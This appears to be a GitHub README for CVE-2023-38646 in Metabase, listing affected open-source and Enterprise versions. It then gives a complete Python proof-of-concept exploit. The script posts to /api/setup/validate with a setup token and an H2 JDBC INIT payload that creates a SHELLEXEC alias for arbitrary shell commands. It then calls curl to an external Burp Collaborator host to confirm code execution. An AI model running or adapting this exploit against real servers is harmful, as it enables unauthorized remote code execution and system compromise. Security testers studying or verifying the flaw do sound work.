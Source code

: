 
## CVE-2023-38646

## 影响版本
Metabase open source 0.46 < 0.46.6.1
Metabase open source 0.45 < v0.45.4.1
Metabase open source 0.44 < 0.44.7.1
Metabase open source 0.43 < 0.43.7.2
Metabase Enterprise 1.45 < 1.45.4.1
Metabase Enterprise 1.46 < 1.46.6.1
Metabase Enterprise 1.44 < 1.44.7.1
Metabase Enterprise 1.43 < 1.43.7.2

```
import requests
import argparse
from colorama import Fore, Style
Gcyan = Fore.YELLOW + Style.BRIGHT
Cyan = Fore.CYAN + Style.BRIGHT
STOP = Style.RESET_ALL
logo = '''
   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __ 
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / / 
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \\
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/
                                                            
'''
print(Gcyan + logo + STOP)
print(Cyan + "The PoC Finder!!" + STOP + Gcyan + "   By: 0xRobiul\n" + STOP)


parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", type=str, required=True, help="Target URL.")
parser.add_argument("-t", "--token", type=str, required=True, help="Setup-Token From /api/session/properties .")
parser.add_argument("-c", "--collabrator", type=str, required=True, help="Burp Collabrator Client.")
args = parser.parse_args()

url = args.url + "/api/setup/validate"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "application/json", "Content-Type": "application/json", "Connection": "close"}
payload={"details": {"details": {"advanced-options": True, "classname": "org.h2.Driver", "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=0xRobiul " + args.collabrator +"');", "subprotocol": "h2"}, "engine": "postgres", "name": "x"}, "token": args.token}
attk = requests.post(url, headers=headers, json=payload)

print(Cyan + "Done!! Check Burp Colabrator!!" + STOP)
```

